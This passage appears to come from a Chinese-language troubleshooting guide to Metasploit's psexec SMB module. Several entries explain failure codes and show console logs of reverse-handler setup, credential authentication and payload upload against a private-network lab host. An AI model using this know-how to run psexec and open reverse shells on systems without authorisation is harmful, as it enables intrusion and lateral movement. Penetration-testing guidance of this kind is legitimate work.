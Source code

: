 报错原因：目标主机可能已脱离域，可能是smbdomain选项问题，这个问题暂时没有环境复现。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.108:445|WORKGROUP1 as user 'administrator'...[-] Exploit failed [no-access]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS_TRUSTED_RELATIONSHIP_FAILURE (Command=115 WordCount=0)
```



### (15) Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS_BAD_NETWORK_NAME

报错原因：指定了一个不存在的共享目录或ADMIN$被删除时就会出现以下报错，因为psexec模块默认设置的是ADMIN$，net share admin$ /delete。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.108:445 as user 'administrator'...[-] Exploit failed: Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS_BAD_NETWORK_NAME (Command=117 WordCount=0)
```



### (16) Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS_ACCESS_DENIED

报错原因：90sec这个帐户可能不是本地管理员或启用了Windows UAC的帐户。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.108:445 as user '90sec'...[-] Exploit failed [no-access]: Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS_ACCESS_DENIED (Command=117 WordCount=0)
```



### (17) Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS_OBJECT_PATH_SYNTAX_BAD

报错原因：指定了错误的共享目录，例如IPC$。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.108:445|WORKGROUP as user 'administrator'...[*] Uploading payload...[-] Exploit failed: Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS_OBJECT_PATH_SYNTAX_BAD (Command=45 WordCount=0)
```

RubySMB::Error::UnexpectedStatusCode STATUS_OBJECT_NAME_NOT_FOUND

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.108:445|WORKGROUP as user 'administrator'...[*] 192.168.1.108:445 - Selecting native target[*] 192.168.1.108:445 - Uploading payload... PGREJDWE.exe[-] 192.168.1.108:445 - Exploit failed: RubySMB::Error::UnexpectedStatusCode STATUS_OBJECT_NAME_NOT_FOUND[*] Exploit completed, but no session was created.
```
